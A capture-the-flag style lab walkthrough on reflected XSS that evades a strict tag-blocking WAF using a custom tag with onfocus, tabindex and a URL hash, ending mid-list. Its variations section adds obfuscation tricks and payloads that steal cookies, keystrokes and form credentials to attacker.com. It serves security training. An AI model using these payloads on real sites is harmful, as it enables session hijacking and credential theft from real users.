

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify Reflected XSS vulnerability with strict WAF protection
- 🎯 Understand that ALL standard HTML tags are blocked by WAF
- 💡 Discover custom tags are allowed (non-standard tag names)
- 🔗 Use custom tag with `onfocus` event handler
- ⚡ Leverage URL hash and `tabindex` for auto-focus
- 🚨 Create exploit server payload that triggers automatically
- 🎉 Execute `alert(document.cookie)` to solve lab

---

## 🧠 **Concept Recap**

> **Reflected XSS with Custom Tags** occurs when a web application firewall (WAF) blocks ALL standard HTML tags (`<script>`, ``, `<body>`, `<div>`, etc.) but fails to block custom/non-standard tag names. Since browsers will parse ANY tag name (even made-up ones like `<xss>`, `<foo>`, `<custom>`), attackers can use custom tags with event handlers to achieve XSS. The challenge is triggering the event handler automatically without user interaction - solved using URL hash fragments and the `tabindex` attribute with `onfocus`.

### 📊 **The Vulnerability**

**Normal XSS (blocked by strict WAF):**

```HTML
Attempt 1 - Standard tags blocked:
<script>alert(1)</script> → 400 Bad Request ❌
 → 400 Bad Request ❌
<body onload=alert(1)> → 400 Bad Request ❌
<svg onload=alert(1)> → 400 Bad Request ❌
<iframe src=javascript:alert(1)> → 400 Bad Request ❌

WAF blocks everything:
         ↓
All known HTML tags blacklisted
         ↓
Cannot use standard vectors
         ↓
Need different approach! 🤔
```

**Custom tag bypass (WAF allows unknown tags):**

```HTML
Discovery: Custom tags are NOT blocked!

Test custom tag:
<xss>test</xss> → 200 OK ✓
<foo>test</foo> → 200 OK ✓
<mycustomtag>test</mycustomtag> → 200 OK ✓

Why this works:
         ↓
WAF has blacklist of known tags
         ↓
Custom tags not in blacklist
         ↓
WAF allows them through! ✓
         ↓
But can we execute JavaScript? 🤔
```

**Custom tag with event handler:**

```HTML
Step 1: Use custom tag with event handler
<xss id=x onfocus=alert(document.cookie) tabindex=1>

Step 2: Components explained
<xss                                 → Custom tag (not blocked!)
     id=x                            → ID for targeting
          onfocus=alert(document.cookie)  → Event handler
                                     tabindex=1>  → Makes focusable

Step 3: But onfocus needs focus event...
         ↓
How to trigger focus automatically? 🤔
         ↓
Solution: URL hash fragment! ✓
```

**Complete exploit with auto-trigger:**

```HTML
Step 1: Craft payload with custom tag
<xss id=x onfocus=alert(document.cookie) tabindex=1>

Step 2: Add URL hash to focus element
https://lab.com/?search=<xss id=x onfocus=alert(1) tabindex=1>#x
                                                                 ↑
                                                    Hash points to id=x

Step 3: Execution flow
Victim visits URL
         ↓
Page loads with custom tag
         ↓
HTML rendered: <xss id=x onfocus=alert(...) tabindex=1>
         ↓
URL has #x hash fragment
         ↓
Browser automatically scrolls to element with id=x
         ↓
Scrolling to element focuses it (because tabindex=1)
         ↓
Focus event triggers onfocus handler
         ↓
alert(document.cookie) executes! 💥
         ↓
XSS successful! 🎯
```

**Key Insight:**

```js
Why custom tag bypass works:

1. WAF limitation - Blacklist approach:
   └── WAF blocks: <script>, , <svg>, <body>, <div>, etc.
       └── WAF cannot block ALL possible tag names! ⚠️
           └── Custom tags slip through: <xss>, <foo>, <anything>
               └── Browser parses them anyway! ✓

2. Browser behavior:
   └── Browsers parse ANY tag name
       └── <xss> is valid (unknown but parsed)
           └── Can attach event handlers to any tag
               └── <xss onfocus=...> works! ✓

3. The auto-trigger technique:
   └── URL hash fragment (#x)
       └── Browser scrolls to element with id=x
           └── Scrolling to element with tabindex focuses it
               └── Focus triggers onfocus event
                   └── No user interaction needed! ✓

4. Components working together:
   Custom tag:     <xss>           → Bypasses WAF tag blacklist
   Event handler:  onfocus=...     → Executes JavaScript
   ID attribute:   id=x            → Target for hash fragment
   Tabindex:       tabindex=1      → Makes element focusable
   URL hash:       #x              → Auto-focuses element
   Result:         Automatic XSS! 💥

5. Why standard tags fail:
   ❌ <script> → Blocked by WAF
   ❌  → Blocked by WAF
   ❌ <svg> → Blocked by WAF
   ❌ <body> → Blocked by WAF
   ❌ <iframe> → Blocked by WAF
   ✅ <xss> → NOT blocked! (custom tag)

6. The complete attack chain:
   └── Custom tag bypasses WAF
       └── onfocus handler adds JavaScript
           └── tabindex makes it focusable
               └── URL hash auto-focuses it
                   └── onfocus executes code
                       └── alert(document.cookie) runs! 💣
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Setup**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Locate the **search functionality**

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ [Search: _____________] [Search]   │ ← Search box
│                                    │
│ Recent Posts:                      │
│ ├── Post 1                         │
│ ├── Post 2                         │
│ └── Post 3                         │
└────────────────────────────────────┘
```

---

### 🔎 **Step 2 — Test Basic Input Reflection**

1. 🖱️ Click in the search box
2. ✏️ Type a test query: `test`
3. 🚀 Click **"Search"** button

**URL changes to:**

```HTTP
https://YOUR-LAB-ID.web-security-academy.net/?search=test
```

**Page displays:**

```HTML
┌──────────────────────────────────────┐
│ Search Results                       │
├──────────────────────────────────────┤
│                                      │
│ 0 search results for 'test'          │ ← Search term reflected
│                                      │
└──────────────────────────────────────┘
```

**Key observation:**

```
✅ Search term is reflected in HTML
✅ Potential XSS vulnerability!
💡 Let's test XSS vectors
```

---

### 💉 **Step 3 — Test Common XSS Payload**

Let's test a standard XSS vector.

1. 🖱️ In search box, enter:

```html
<script>alert(1)</script>
```

2. 🚀 Click **"Search"**

**Expected result (with strict WAF):**

```
❌ 400 Bad Request

┌────────────────────────────────────┐
│ 400 Bad Request                    │
│                                    │
│ The request was blocked            │
│                                    │
│ "Tag is not allowed"               │
│                                    │
└────────────────────────────────────┘
```

**Critical discovery:**

```
🚨 WAF DETECTED!

Observations:
├── <script> tag blocked
├── 400 Bad Request response
└── Very strict filtering! ⚠️
```

---

### 🧪 **Step 4 — Test Multiple Standard Tags**

Let's test if other common tags work.

**Test these payloads one by one:**

```html

```

**Result:** ❌ 400 Bad Request (blocked)

```html
<svg onload=alert(1)>
```

**Result:** ❌ 400 Bad Request (blocked)

```html
<body onload=alert(1)>
```

**Result:** ❌ 400 Bad Request (blocked)

```html
<iframe src=javascript:alert(1)>
```

**Result:** ❌ 400 Bad Request (blocked)

```html
<div onclick=alert(1)>
```

**Result:** ❌ 400 Bad Request (blocked)

**Pattern Analysis:**

```
🔍 CRITICAL INSIGHT!

All standard HTML tags are blocked:
├── <script> ❌
├──  ❌
├── <svg> ❌
├── <body> ❌
├── <iframe> ❌
├── <div> ❌
└── Appears ALL known tags blocked! 🚨

This is different from previous lab:
└── Previous lab: Some tags allowed
    └── This lab: ALL standard tags blocked
        └── Need completely different approach! 💡
```

---

### 💡 **Step 5 — Test Custom Tag**

Since all standard tags are blocked, let's try a custom (non-standard) tag.

1. 🖱️ In search box, enter:

```html
<xss>test</xss>
```

2. 🚀 Click **"Search"**

**Expected result:**

```
✅ 200 OK

┌───────────────────────────────────────┐
│ Search Results                        │
├───────────────────────────────────────┤
│                                       │
│ 0 search results for '<xss>test</xss>'│ ← Custom tag reflected!
│                                       │
└───────────────────────────────────────┘
```

**View page source:**

```html
<section class="search">
    <h1>0 search results for '<xss>test</xss>'</h1>
</section>
```

**Breakthrough discovery:**

```js
🎯 BREAKTHROUGH!

Findings:
├── Custom tag <xss> NOT blocked ✓
├── Page returns 200 OK ✓
├── Tag rendered in HTML ✓
└── WAF only blocks KNOWN tags! 💡

Why this works:
└── WAF maintains blacklist of standard HTML tags
    └── <script>, , <svg>, <body>, etc.
        └── But cannot blacklist ALL possible tag names!
            └── Custom tags slip through! ✓

Browser behavior:
└── Browsers parse ANY tag name
    └── <xss> is syntactically valid HTML
        └── Even though it's not a standard tag
            └── Browser creates element anyway! ✓

Next step:
└── Can we add event handlers to custom tags? 🤔
```

---

### 🔬 **Step 6 — Test Custom Tag with Event Handler**

Now let's see if we can attach an event handler to our custom tag.

1. 🖱️ In search box, enter:

```html
<xss onclick=alert(1)>click me</xss>
```

2. 🚀 Click **"Search"**

**Expected result:**

```
✅ 200 OK

Page displays:
0 search results for '<xss onclick=alert(1)>click me</xss>'
                        ↑
                   Click the text "click me"
```

3. 🖱️ **Click on the text "click me"**

**Result:**

```
💥 Alert box appears!

┌────────────────────────────────────┐
│                                    │
│           1                        │
│                                    │
│              [OK]                  │
└────────────────────────────────────┘
```

**Critical discovery:**

```js
🎉 SUCCESS!

Proven facts:
├── Custom tags accept event handlers ✓
├── onclick works on <xss> tag ✓
├── JavaScript executes ✓
└── We have XSS! 💥

But there's a problem:
└── onclick requires user to click
    └── Lab requires AUTOMATIC execution
        └── Need self-triggering event! 🎯

Solution options:
├── onload? (requires special elements)
├── onerror? (requires error condition)
├── onfocus? (requires element focus) ✓
└── Let's explore onfocus!
```

---

### 🎯 **Step 7 — Understanding onfocus Event**

**What is onfocus?**

```javascript
The onfocus event:
├── Fires when element receives focus
├── Focus = element becomes active/selected
├── Examples:
│   ├── Clicking on an input field
│   ├── Tabbing to an element
│   └── Programmatically setting focus
└── Can be triggered automatically! ✓

For onfocus to work:
└── Element must be focusable
    └── By default, only certain elements are focusable:
        ├── <input>, <textarea>, <button> (form elements)
        ├── <a> (links with href)
        └── Custom elements? Need tabindex! 💡

The tabindex attribute:
└── Makes ANY element focusable
    └── tabindex="1" (or any positive number)
        └── Element can now receive focus ✓

How to auto-focus:
└── Use URL hash fragment!
    └── URL: https://example.com#elementID
        └── Browser scrolls to element with id=elementID
            └── If element has tabindex, it gets focused! ✓
```

**The complete technique:**

```html
Step 1: Create custom tag with onfocus
<xss id=x onfocus=alert(1) tabindex=1>

Step 2: Add URL hash to auto-focus
https://lab.com/?search=<xss id=x onfocus=alert(1) tabindex=1>#x
                                                                 ↑
                                                        Hash targets id=x

Execution flow:
Page loads → Browser sees #x in URL → Scrolls to element with id=x → 
Element has tabindex=1 → Element is focusable → Browser focuses it →
Focus event fires → onfocus handler triggers → alert(1) executes! 💥
```

---

### 🛠️ **Step 8 — Construct Complete Payload**

Let's build our final payload step by step.

**Component 1: Custom tag**

```html
<xss>
```

✅ Bypasses WAF (not in blacklist)

**Component 2: ID attribute**

```html
<xss id=x>
```

✅ Provides target for URL hash

**Component 3: onfocus handler**

```html
<xss id=x onfocus=alert(document.cookie)>
```

✅ JavaScript payload (lab requires document.cookie)

**Component 4: tabindex**

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>
```

✅ Makes element focusable

**Complete payload:**

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>
```

**URL-encoded for search parameter:**

```
%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E
```

**Encoding breakdown:**

```
<   → %3C
xss → xss (no encoding needed for letters)
    → + (space as plus sign in URL)
id  → id
=   → %3D
x   → x
    → +
onfocus → onfocus
=   → %3D
alert(document.cookie) → alert%28document.cookie%29
    → %20 (space)
tabindex=1 → tabindex=1
>   → %3E
```

**Complete URL:**

```js
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x
```

**CRITICAL: The `#x` at the end:**

```
The hash fragment is ESSENTIAL:
└── #x targets the element with id=x
    └── Causes browser to scroll to it
        └── Scrolling to focusable element focuses it
            └── Focus triggers onfocus event
                └── alert(document.cookie) executes! ✓

Without #x:
└── Element exists but not focused
    └── onfocus never fires
        └── Alert never executes
            └── Attack fails! ❌
```

---

### 🌐 **Step 9 — Create Exploit Server Payload**

Now we need to deliver this payload to the victim using the exploit server.

1. 🌐 Go to the lab page and click **"Go to exploit server"** button

**Exploit server interface:**

```
┌────────────────────────────────────┐
│ Exploit Server                     │
├────────────────────────────────────┤
│                                    │
│ Body:                              │
│ [____________________________]     │
│ [____________________________]     │
│ [____________________________]     │
│                                    │
│ [Store] [View exploit] [Deliver]   │
│                                    │
└────────────────────────────────────┘
```

2. 📝 In the **Body** section, enter:

```html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

**IMPORTANT:** Replace `YOUR-LAB-ID` with your actual lab ID!

**Breaking down the exploit:**

```javascript
<script>
location = 'URL';
</script>

Component breakdown:

1. <script> tag
   └── Executes JavaScript on exploit server
       └── This runs in victim's browser

2. location = 'URL'
   └── Redirects victim to target URL
       └── Same as window.location.href = 'URL'

3. Target URL structure:
   https://YOUR-LAB-ID.web-security-academy.net/  ← Base URL
   ?search=                                        ← Search parameter
   %3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E  ← Payload
   #x                                              ← Hash fragment

Why redirect instead of iframe (like previous lab)?
└── Simpler approach
    └── Direct navigation to malicious URL
        └── Hash fragment auto-focuses element
            └── onfocus triggers immediately! ✓

Execution flow:
Victim visits exploit server
         ↓
Exploit page loads
         ↓
<script> executes
         ↓
location = '...' redirects victim
         ↓
Victim's browser loads target URL
         ↓
Search parameter renders: <xss id=x onfocus=... tabindex=1>
         ↓
URL has #x hash
         ↓
Browser scrolls to element with id=x
         ↓
Element has tabindex=1 (focusable)
         ↓
Browser focuses element
         ↓
onfocus event fires
         ↓
alert(document.cookie) executes! 💥
```

**Alternative exploit format (also works):**

```html
<script>
window.location.href = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

Or even simpler:

```html
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

All three formats work the same way! ✓

---

### 🧪 **Step 10 — Test the Exploit**

Before delivering to victim, let's test it ourselves.

1. ✏️ After pasting the exploit code, click **"Store"** button
2. 🖱️ Click **"View exploit"** button

**Expected behavior:**

```
New tab/window opens
         ↓
Exploit server page loads
         ↓
<script> executes immediately
         ↓
location = '...' redirects to target URL
         ↓
Target page loads with search parameter
         ↓
Custom tag rendered in HTML
         ↓
URL hash #x causes browser to scroll to id=x
         ↓
Element with tabindex=1 receives focus
         ↓
onfocus event triggers
         ↓
alert(document.cookie) executes! 💥
         ↓
Alert box appears! ✓
```

**Alert dialog:**

```
┌────────────────────────────────────┐
│                                    │
│  secret=abcd1234; session=xyz789   │
│                                    │
│              [OK]                  │
└────────────────────────────────────┘
```

2. ✅ If alert appears with cookie, exploit works!
3. ❌ If no alert, check:
    - Lab ID is correct
    - URL encoding is correct
    - Hash fragment #x is present at the end
    - No typos in payload

**Troubleshooting:**

```
Problem: Alert doesn't appear

Check 1: Is #x at the end of URL?
└── Without hash, element won't focus
    └── onfocus won't trigger
        └── Add #x to end of URL! ✓

Check 2: Is tabindex=1 in payload?
└── Without tabindex, element not focusable
    └── Cannot receive focus
        └── Add tabindex=1 to payload! ✓

Check 3: Is id=x in payload?
└── Hash targets id attribute
    └── If id missing, hash has no target
        └── Add id=x to payload! ✓

Check 4: URL encoding correct?
└── Special characters must be encoded
    └── Check encoding reference
        └── Fix encoding issues! ✓
```

---

### 🎯 **Step 11 — Deliver Exploit to Victim**

1. ✅ Close the alert dialog (and test tab if opened)
2. 🌐 Go back to exploit server
3. 🚀 Click **"Deliver exploit to victim"** button

**Expected process:**

```
Exploit server sends notification
         ↓
Simulated victim clicks link
         ↓
Victim's browser loads exploit URL
         ↓
Exploit page executes <script>
         ↓
Victim redirected to malicious URL
         ↓
Target page loads with XSS payload
         ↓
Custom tag rendered with onfocus handler
         ↓
URL hash #x auto-focuses element
         ↓
onfocus triggers alert(document.cookie)
         ↓
Lab detects successful execution
         ↓
Lab solved! 🎉
```

**Important notes:**

```
Requirements for success:
✅ Must execute alert(document.cookie) (not just alert(1))
✅ Must trigger automatically (no user interaction)
✅ Must work in victim's browser

Our exploit satisfies all:
└── Uses alert(document.cookie) ✓
    └── Triggers via URL hash + onfocus ✓
        └── No user action needed ✓
```

---

### ✅ **Step 12 — Lab Completion**

**After delivering exploit:**

```
Lab automatically detects:
├── Victim visited exploit page
├── Victim redirected to malicious URL
├── XSS payload executed
├── alert(document.cookie) called
└── Lab solved! ✓
```

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully bypassed strict   │
│  WAF protection by using custom     │
│  HTML tags with auto-focusing       │
│  techniques to achieve XSS without  │
│  any user interaction.              │
│                                     │
│  Lab: Reflected XSS into HTML       │
│       context with all tags blocked │
│       except custom ones            │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Test search functionality
         → search=test → Reflected in HTML ✓
         ↓
Step 3: Test common XSS payload
         → <script>alert(1)</script>
         → 400 Bad Request → WAF detected! 🚨
         ↓
Step 4: Test multiple standard tags
         → , <svg>, <body>, <iframe>, <div>
         → ALL return 400 Bad Request
         → ALL standard tags blocked! ⚠️
         ↓
Step 5: Test custom tag
         → <xss>test</xss>
         → 200 OK → Custom tag allowed! ✅
         ↓
Step 6: Test custom tag with event handler
         → <xss onclick=alert(1)>click me</xss>
         → Works when clicked! ✓
         → But need automatic trigger
         ↓
Step 7: Research auto-trigger techniques
         → Learn about onfocus event
         → Learn about tabindex attribute
         → Learn about URL hash fragments
         → Design automatic solution! 💡
         ↓
Step 8: Construct complete payload
         → <xss id=x onfocus=alert(document.cookie) tabindex=1>
         → URL encode for search parameter
         → Add #x hash fragment for auto-focus
         ↓
Step 9: Create exploit server payload
         → <script>
         → location = 'TARGET_URL#x';
         → </script>
         → Redirects victim to malicious URL
         ↓
Step 10: Test exploit
         → View exploit → Redirects → Alert appears ✓
         ↓
Step 11: Deliver to victim
         → Victim visits exploit page
         → Redirected to malicious URL
         → Hash #x focuses element
         → onfocus triggers
         → alert(document.cookie) executes! 💥
         ↓
Step 12: Lab detects success
         ↓
Step 13: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Custom HTML Tags**

```js
What are custom tags?

Definition:
└── Tag names not defined in HTML standard
    └── Examples: <xss>, <foo>, <mycustom>, <anything>
        └── Browsers parse them anyway! ✓

Browser behavior:
└── HTML5 specification is lenient
    └── Browsers parse ANY tag name
        └── Creates DOM element
            └── Even if tag is meaningless! ✓

Example:
<xss>content</xss>

Browser creates:
HTMLUnknownElement {
    tagName: "XSS",
    innerHTML: "content",
    // All normal element properties
}

Can attach event handlers:
<xss onclick="alert(1)">
<xss onmouseover="alert(1)">
<xss onfocus="alert(1)">

All work exactly like standard elements! ✓

Why WAFs fail to block custom tags:

Problem for WAF:
└── Cannot blacklist ALL possible tag names
    └── Infinite possibilities: <a>, <aa>, <aaa>, <custom123>, etc.
        └── Must allow some tags (legitimate custom elements)
            └── Attackers exploit this! 💥

Legitimate use of custom tags:
└── Web Components standard
    └── Developers create custom elements
        └── <my-component>, <user-card>, etc.
            └── WAF cannot block all custom tags
                └── Would break legitimate sites! ⚠️
```

---

### **The onfocus Event**

```JavaScript
Understanding onfocus:

What is focus?
└── When element is active/selected
    └── Examples:
        ├── Typing in input field (input has focus)
        ├── Clicked button (button has focus)
        └── Tabbed to link (link has focus)

onfocus event:
└── Fires when element receives focus
    └── Can execute JavaScript
        └── onfocus="alert(1)"

Which elements are focusable?

By default:
├── Form elements: <input>, <textarea>, <select>, <button>
├── Links: <a href="...">
└── Elements with tabindex attribute ✓

The tabindex attribute:
└── Makes ANY element focusable
    └── tabindex="0" → Natural tab order
        └── tabindex="1" → Tab order priority
            └── tabindex="-1" → Programmatically focusable only

Example:
<div tabindex="1">Now focusable!</div>
<span tabindex="1">Also focusable!</span>
<xss tabindex="1">Custom tag now focusable!</xss>

How to trigger focus:

Manual methods:
├── User clicks element
├── User presses Tab key
└── User interacts with page

Automatic methods (XSS exploitation):
├── JavaScript: element.focus()
├── URL hash fragment: #elementID ✓ (Used in this lab)
└── autofocus attribute (on some elements)

The URL hash technique:
URL: https://example.com/page#section2

Browser behavior:
1. Load page
2. Parse URL
3. See hash: #section2
4. Find element with id="section2"
5. Scroll to that element
6. If element has tabindex → Focus it! ✓

Perfect for XSS:
<xss id=x tabindex=1 onfocus=alert(1)>
URL: .../?search=<payload>#x
Result: Automatic focus → Automatic alert! 💥
```

---

### **URL Hash Fragments**

```js
What is a URL hash?

URL structure:
https://example.com/page?param=value#section
                                      ↑
                               Hash fragment

Purpose:
└── Navigate to specific section of page
    └── Browser scrolls to element with matching id
        └── <div id="section"> ← Browser scrolls here

Behavior:
URL: https://example.com#intro

Browser:
1. Load page
2. Find element: <div id="intro">
3. Scroll to that element
4. If element focusable → Focus it!

XSS exploitation:

Payload: <xss id=x tabindex=1 onfocus=alert(1)>
URL: https://victim.com/?search=<payload>#x

Execution:
Page loads
    ↓
Browser sees #x in URL
    ↓
Finds element: <xss id=x ...>
    ↓
Scrolls to element
    ↓
Element has tabindex=1 (focusable)
    ↓
Browser focuses it
    ↓
onfocus event fires
    ↓
alert(1) executes! 💥

Why this is powerful:
✅ No user interaction needed
✅ Happens automatically on page load
✅ Works across all browsers
✅ Perfect for automatic XSS exploitation!

Hash fragment is NOT sent to server:
URL: https://example.com/page?search=test#x

Server receives:
└── https://example.com/page?search=test
    └── Hash #x is client-side only! ✓

This means:
└── Server-side WAF cannot see hash
    └── Cannot filter based on hash
        └── Useful for bypasses! 💡
```

---

### **Why This Bypass Works**

```js
The complete bypass mechanism:

WAF limitation:
└── Blacklist approach for tags
    └── Blocks: <script>, , <svg>, <body>, etc.
        └── Cannot block ALL tag names
            └── Custom tags slip through! ✓

Browser leniency:
└── Parses ANY tag name
    └── Creates DOM element
        └── Allows event handlers
            └── JavaScript executes! ✓

Event handler allowance:
└── WAF may block dangerous handlers on standard tags
    └── But custom tags are unexpected
        └── Event handlers on custom tags not filtered
            └── onfocus works! ✓

Automatic trigger:
└── URL hash fragment
    └── Browser auto-scrolls to target
        └── Focusable element gets focus
            └── onfocus fires automatically! ✓

Complete chain:
Custom tag → Bypasses WAF tag blacklist
onfocus → Executes JavaScript
tabindex → Makes element focusable
id attribute → Target for hash
URL hash → Auto-focuses element
Result → Automatic XSS! 💥

Why standard approaches fail:
❌ <script>alert(1)</script> → WAF blocks <script>
❌  → WAF blocks 
❌ <svg onload=alert(1)> → WAF blocks <svg>
✅ <xss id=x onfocus=alert(1) tabindex=1>#x → Works!

The defense vs attack asymmetry:
Defense must: Block ALL dangerous combinations
Attack needs: Just ONE working combination
Result: Attacker has advantage! 🎯
```

---

## 🚀 **Attack Variations**

### **Variation 1: Different Custom Tag Names**

```html
Any custom tag name works:

<xss id=x onfocus=alert(document.cookie) tabindex=1>
<foo id=x onfocus=alert(document.cookie) tabindex=1>
<custom id=x onfocus=alert(document.cookie) tabindex=1>
<pwned id=x onfocus=alert(document.cookie) tabindex=1>
<anything id=x onfocus=alert(document.cookie) tabindex=1>

All work identically! ✓

Best practice for stealth:
└── Use innocent-looking tag names
    └── <custom-element> (looks like web component)
    └── <data-widget> (looks like data attribute)
    └── Blend in with legitimate code! 🥷
```

---

### **Variation 2: Different Event Handlers**

```html
If onfocus is blocked, try other auto-trigger events:

Using onblur (opposite of focus):
<xss id=x onblur=alert(1) tabindex=1>#x
Then use JavaScript to blur after focus

Using onanimationstart:
<style>@keyframes x{}</style>
<xss id=x style="animation:x 1s" onanimationstart=alert(1)>

Using ontransitionend:
<style>xss{transition:width 1s}</style>
<xss id=x style="width:100px" ontransitionend=alert(1)>

Using onscroll:
<xss id=x onscroll=alert(1) tabindex=1 style="overflow:auto;height:50px">
<div style="height:100px"></div>
</xss>

All provide automatic triggers! ✓
```

---

### **Variation 3: Multiple ID Targeting**

```html
If single hash doesn't work, try alternatives:

Multiple elements with same ID (invalid but works):
<xss id=x onfocus=alert(1) tabindex=1>
<xss id=x onfocus=alert(2) tabindex=1>
URL: ...#x
Result: First element gets focus

Using different IDs:
<xss id=target1 onfocus=alert(1) tabindex=1>
URL: ...#target1

Using numeric IDs:
<xss id=1 onfocus=alert(1) tabindex=1>
URL: ...#1

All variations work! ✓
```

---

### **Variation 4: JavaScript-Based Focus**

```html
Instead of URL hash, use JavaScript to focus:

Using autofocus attribute (if allowed):
<xss autofocus onfocus=alert(1)>

Using inline script to focus:
<xss id=x onfocus=alert(1) tabindex=1>
<script>document.getElementById('x').focus()</script>

Using setTimeout for delayed focus:
<xss id=x onfocus=alert(1) tabindex=1>
<script>setTimeout(() => x.focus(), 100)</script>

But URL hash is simpler and requires no script tag! ✓
```

---

### **Variation 5: Chained Events**

```html
Chain multiple events for robustness:

<xss id=x 
     onfocus=alert(1) 
     onclick=alert(2) 
     onmouseover=alert(3) 
     tabindex=1>

Whichever event fires first triggers alert!
└── Increases success rate ✓
```

---

### **Variation 6: Obfuscation Techniques**

```html
If WAF detects specific patterns:

Case variation:
<XSS id=x OnFoCuS=alert(1) TabInDeX=1>

Unicode escaping:
<xss id=x onfocus=\u0061\u006c\u0065\u0072\u0074(1) tabindex=1>

HTML entity encoding (in attribute):
<xss id=x onfocus="&#97;&#108;&#101;&#114;&#116;(1)" tabindex=1>

String concatenation:
<xss id=x onfocus="ale"+"rt(1)" tabindex=1>

All may bypass signature detection! ✓
```

---

### **Variation 7: Real Attack Payloads**

```html
In real scenarios, beyond alert():

Cookie stealing:
<xss id=x onfocus="fetch('https://attacker.com/'+document.cookie)" tabindex=1>

Session hijacking:
<xss id=x onfocus="new Image().src='https://attacker.com/?c='+document.cookie" tabindex=1>

Keylogging:
<xss id=x onfocus="document.onkeypress=e=>fetch('https://attacker.com/?k='+e.key)" tabindex=1>

Form hijacking:
<xss id=x onfocus="document.forms[0].action='https://attacker.com/steal'" tabindex=1>

Credential theft:
<xss id=x onfocus="document.forms[0].onsubmit=e=>{fetch('https://attacker.com/',{method:'POST',body:new FormData(e.target)});}" tabindex=1>

All use same bypass technique but with actual malicious intent! 💀
```

---

### **Variation 8: Exploit Server Alternatives**

```html
Different ways to deliver the exploit:

Method 1: Direct redirect (used in lab):
<script>
location = 'TARGET_URL#x';
</script>

Method 2: Iframe (like previous lab):
<iframe src="TARGET_URL#x"></iframe>

Method 3: Meta refresh:
<meta http-equiv="refresh" content="0;url=TARGET_URL#x">

Method 4: Link with auto-click:
<a id=exploit href="TARGET_URL#x">Click</a>
<script>
exploit.click();
</script>

Method 5: Form auto-submit:
<form action="TARGET_URL#x" method="GET">
<input name="search" value="PAYLOAD">
</form>
<script>
document.forms[0].submit();
</script>

All achieve same result! ✓
```

---

## 🎓 **Key Learning Points**

### **1. WAF Bypass Principles**

```
Blacklist limitations:
└── Cannot block all possible values
    └── Infinite tag names possible
        └── Some must be allowed
            └── Attackers find gaps! 💡

Defense vs Attack asymmetry:
└── Defender: Must block ALL dangerous inputs
    └── Attacker: Needs just ONE working input
        └── Asymmetric battle favors attacker! ⚠️

Better approach - Whitelist:
└── Only allow known-good values
    └── Deny everything else
        └── Much more secure! ✓
```

---

### **2. Browser Leniency**

```
HTML5 is forgiving:
└── Parses any tag name
    └── Creates DOM elements
        └── Enables attacks! ⚠️

Event handlers on any element:
└── Any DOM element can have event handlers
    └── Including custom tags
        └── Attackers exploit this! 💥

Lenient parsing helps compatibility:
└── But creates security issues
    └── Defense in depth required! ✓
```

---

### **3. Automatic Trigger Techniques**

```
XSS without user interaction:
└── More dangerous
    └── Victims don't need to click anything
        └── Higher success rate! ⚠️

Techniques used:
├── URL hash fragments (this lab)
├── autofocus attribute
├── iframe onload events
├── CSS animations
└── Many others! 💡

URL hash is particularly useful:
└── Client-side only (server can't see it)
    └── Bypasses server-side filtering
        └── Powerful technique! ✓
```

---

## 📚 **Additional Resources**

### **Custom Elements in HTML5**

```HTML
Web Components standard:
└── Allows developers to create custom elements
    └── Example: <my-button>, <user-card>
        └── Legitimate use case for custom tags! ✓

Why browsers allow custom tags:
└── Support Web Components
    └── Enable component-based development
        └── But also enables XSS! ⚠️

Proper custom element format:
└── Must contain hyphen: <my-element>
    └── Distinguishes from standard tags
        └── But browsers parse any tag! 💡

Security implication:
└── Cannot block all custom tags
    └── Would break legitimate Web Components
        └── Creates attack surface! 🎯
```

---

### **Focus-Based XSS Techniques**

```JavaScript
Why focus-based XSS is powerful:

1. Automatic execution:
   └── No user interaction needed ✓

2. Multiple trigger methods:
   ├── URL hash
